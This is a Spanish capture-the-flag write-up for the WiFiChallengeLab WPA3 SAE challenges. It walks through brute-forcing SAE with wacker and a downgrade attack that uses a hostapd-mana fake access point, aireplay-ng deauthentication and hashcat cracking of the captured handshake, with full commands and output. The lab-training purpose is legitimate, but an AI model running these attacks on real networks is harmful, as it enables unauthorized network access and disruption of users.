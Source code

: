 ```yaml
---
layout: post
title: "WifiChallengeLab - Wi-Fi - SAE (Simultaneous Authentication of Equals)"
categories: wifi
---
```


> SAE (Simultaneous Authentication of Equals) es un método de autenticación robusto para redes WPA3, es un protocolo de autenticación y de intercambio de claves basado en contraseñas, utilizado en WPA3 (Wi-Fi Protected Access 3). Mejora la seguridad respecto a los protocolos anteriores al proporcionar resistencia a los ataques de fuerza bruta offline.

## WiFiChallenge Lab - Challenge 13. ¿Cuál es la flag en la red wifi-management?

- Primero vamos a comenzar escaneando para ver información de esta red wifi-management:

```bash
root@WiFiChallengeLab:/home/user# airmon-ng start wlan0
root@WiFiChallengeLab:/home/user# airmon-ng check kill
```

- Vemos la red.

```bash
root@WiFiChallengeLab:/home/user# airodump-ng wlan0mon --band bg --wps -c11
```

<p align="center">
<img src="https://i.imgur.com/cHHCIWp.png">
</p>

- Lo que nos piden es saber la contraseña podemos hacer un ataque de fuerza bruta <https://github.com/blunderbuss-wctf/wacker> gracias a la utilización de Dragonfly handshake.

>Dragonblood es un conjunto de vulnerabilidades descubiertas en el protocolo WPA3, específicamente en el SAE. Tiene este nombre debido a que el Handshake de WPA3 se llama DragonFly. Estas vulnerabilidades afectan tanto la fase de autenticación como el proceso de intercambio de claves, permitiendo a los atacantes ejecutar diversos tipos de ataques, tales como la recuperación de contraseñas y la ejecución de ataques de denegación de servicio.

- Para atacar este protocolo primero necesitamos saber la frecuencia de la red wifi indicando el canal donde opera el AP:

```bash
root@WiFiChallengeLab:/home/user# sudo iwlist wlan0mon frequency | grep 'Channel 11 :'
          Channel 11 : 2.462 GHz
```

- Ahora usamos la herramienta pasándole los parámetros que nos piden:

```bash
root@WiFiChallengeLab:~/tools/wacker# ./wacker.py --wordlist ~/rockyou-top100000.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462
```

- Ahora tenemos la contraseña:

<p align="center">
<img src="https://i.imgur.com/3dtenRm.png">
</p>

- Ahora que tenemos la contraseña podemos conectarnos a la red:

```bash
root@WiFiChallengeLab:~# cat sae.conf 
network={
    ssid="wifi-management"
    psk="aqui va la contraseña"
    key_mgmt=SAE
    scan_ssid=1
    ieee80211w=2
}
```

- Ahora nos conectamos a la red:

```bash
root@WiFiChallengeLab:~# wpa_supplicant -i wlan3 -c sae.conf
Successfully initialized wpa_supplicant
nl80211: send_and_recv->nl_recvmsgs failed: -33
wlan3: SME: Trying to authenticate with f0:9f:c2:11:0a:24 (SSID='wifi-management' freq=2462 MHz)
wlan3: SME: Trying to authenticate with f0:9f:c2:11:0a:24 (SSID='wifi-management' freq=2462 MHz)
wlan3: PMKSA-CACHE-ADDED f0:9f:c2:11:0a:24 0
wlan3: Trying to associate with f0:9f:c2:11:0a:24 (SSID='wifi-management' freq=2462 MHz)
wlan3: Associated with f0:9f:c2:11:0a:24
wlan3: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlan3: WPA: Key negotiation completed with f0:9f:c2:11:0a:24 [PTK=CCMP GTK=CCMP]
wlan3: CTRL-EVENT-CONNECTED - Connection to f0:9f:c2:11:0a:24 completed [id=0 id_str=]
```

- Ahora para poder navegar nos asignamos IP:

```bash
root@WiFiChallengeLab:/home/user# dhclient -v wlan3
Internet Systems Consortium DHCP Client 4.4.1
Copyright 2004-2018 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Listening on LPF/wlan3/02:00:00:00:03:00
Sending on   LPF/wlan3/02:00:00:00:03:00
Sending on   Socket/fallback
DHCPDISCOVER on wlan3 to 255.255.255.255 port 67 interval 3 (xid=0x5cdf3d77)
DHCPDISCOVER on wlan3 to 255.255.255.255 port 67 interval 5 (xid=0x5cdf3d77)
DHCPOFFER of 192.168.14.46 from 192.168.14.1
DHCPREQUEST for 192.168.14.46 on wlan3 to 255.255.255.255 port 67 (xid=0x773ddf5c)
DHCPACK of 192.168.14.46 from 192.168.14.1 (xid=0x5cdf3d77)
bound to 192.168.14.46 -- renewal in 43145 seconds.
```

- Ahora vamos a la web para ver la flag:

<p align="center">
<img src="https://i.imgur.com/8MElZal.png">
</p>

## Challenge 14. ¿Cuál es la flag en la web del AP wifi-IT?

- Para este nivel nos dan 2 pistas y nos dicen que tenemos que hacer el ataque downgrade y que el 802.11w esta deshabilitado.

>Este tipo de ataque consiste en engañar al dispositivo para que se conecte utilizando el protocolo WPA2 en lugar de WPA3, siendo vulnerable a ataques de WPA2.

>802.11w está deshabilitado" significa que tu dispositivo o red Wi-Fi no está utilizando una característica de seguridad específica del estándar Wi-Fi llamada "Protected Management Frames" (PMF), Con 802.11w habilitado, esos mensajes están cifrados y autenticados, lo que evita que un atacante pueda expulsarte fácilmente de la red Wi-Fi.

- Para comprobar si esta habilitado o no podemos usar Wireshark examinando un .cap que exportemos al capturar paquetes de la red:

```bash
root@WiFiChallengeLab:~# airodump-ng wlan0mon --band bg -c11 -w captura
```

- Vemos al cliente conectado:

<p align="center">
<img src="https://i.imgur.com/OHLhVHJ.png">
</p>

- Ahora vemos con wireshark que esta en false:

<p align="center">
<img src="https://i.imgur.com/XB3Tcih.png">
</p>

- Para hacer este ataque vamos a comenzar escribiendo el archivo de configuración para el fakeAP.

```bash
root@WiFiChallengeLab:~# cat saw.conf 
interface=wlan1
driver=nl80211
hw_mode=g
channel=11
ssid=wifi-IT
mana_wpaout=hostapd-IT.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

- Ahora levantamos el fakeAP:

```bash
root@WiFiChallengeLab:~# iwconfig wlan0mon channel 11
root@WiFiChallengeLab:~# hostapd-mana saw.conf 
Configuration file: saw.conf
MANA: Captured WPA/2 handshakes will be written to file 'hostapd-IT.hccapx'.
Using interface wlan1 with hwaddr 02:00:00:00:01:00 and ssid "wifi-IT"
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
```

- Ahora vamos a expulsar al cliente para obtener el handshake.

```bash
root@WiFiChallengeLab:/home/user# aireplay-ng wlan0mon -0 0 -a F0:9F:C2:1A:CA:25 -c 10:F9:6F:AC:53:52
20:43:15  Waiting for beacon frame (BSSID: F0:9F:C2:1A:CA:25) on channel 11
20:43:15  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:16  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:17  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:17  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:18  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:19  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:19  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
^C
```

- Obtenemos el handshake:

<p align="center">
<img src="https://i.imgur.com/QmMRRTX.png">
</p>

- Vamos hacer el formato correcto para guardar el handshake.

```bash
root@WiFiChallengeLab:~# cat hostapd-IT.hccapx | head -n 1 | awk '{print $3}' >> hostapd-itnow.22000
```

- Ahora crackeamos el hash con hashcat.

```bash
C:\Users\jmrn7\Tools\hashcat-6.2.6>.\hashcat.exe -a 0 -m 22000 hostapd-itnow.22000 rockyou-top100000.txt --force     
```

- Tenemos la contraseña:

<p align="center">
<img src="https://i.imgur.com/Vt9sevk.png">
</p>

- Ahora nos podemos conectar.

```bash
root@WiFiChallengeLab:~# cat sae2.conf 
network={
   ssid="wifi-IT"
   psk="Aquí va la contraseña"
   key_mgmt=SAE
   scan_ssid=1
   ieee80211w=1
 }
```

- Ahora nos conectamos

```bash
root@WiFiChallengeLab:~# wpa_supplicant -i wlan3 -c sae2.conf 
Successfully initialized wpa_supplicant
wlan3: SME: Trying to authenticate with f0:9f:c2:1a:ca:25 (SSID='wifi-IT' freq=2462 MHz)
wlan3: SME: Trying to authenticate with f0:9f:c2:1a:ca:25 (SSID='wifi-IT' freq=2462 MHz)
wlan3: PMKSA-CACHE-ADDED f0:9f:c2:1a:ca:25 0
wlan3: Trying to associate with f0:9f:c2:1a:ca:25 (SSID='wifi-IT' freq=2462 MHz)
wlan3: Associated with f0:9f:c2:1a:ca:25
wlan3: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlan3: WPA: Key negotiation completed with f0:9f:c2:1a:ca:25 [PTK=CCMP GTK=CCMP]
wlan3: CTRL-EVENT-CONNECTED - Connection to f0:9f:c2:1a:ca:25 completed [id=0 id_str=]
```

- Ahora nos asignamos IP.

```bash
root@WiFiChallengeLab:/home/user# dhclient wlan3 -v
Internet Systems Consortium DHCP Client 4.4.1
Copyright 2004-2018 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Listening on LPF/wlan3/02:00:00:00:03:00
Sending on   LPF/wlan3/02:00:00:00:03:00
Sending on   Socket/fallback
DHCPDISCOVER on wlan3 to 255.255.255.255 port 67 interval 3 (xid=0xf2ae2571)
DHCPOFFER of 192.168.15.46 from 192.168.15.1
DHCPREQUEST for 192.168.15.46 on wlan3 to 255.255.255.255 port 67 (xid=0x7125aef2)
DHCPACK of 192.168.15.46 from 192.168.15.1 (xid=0xf2ae2571)
bound to 192.168.15.46 -- renewal in 33409 seconds.
```

- Vemos la flag final.

```bash
root@WiFiChallengeLab:/home/user# curl -s http://192.168.15.1/login.php | grep flag
    function copyFlagToClipboard(flag) {
        navigator.clipboard.writeText(flag).then(() => {
        alert(flag);
    Flag: <button onclick="copyFlagToClipboard('flag{xxxxxx-xxxxxxxxxxxxxxx-xxxxxxxxxxxxxx}')">flag{xxxxxx-xxxxxxxxxxxxxxx-xxxxxxxxxxxxxx}</button>
```
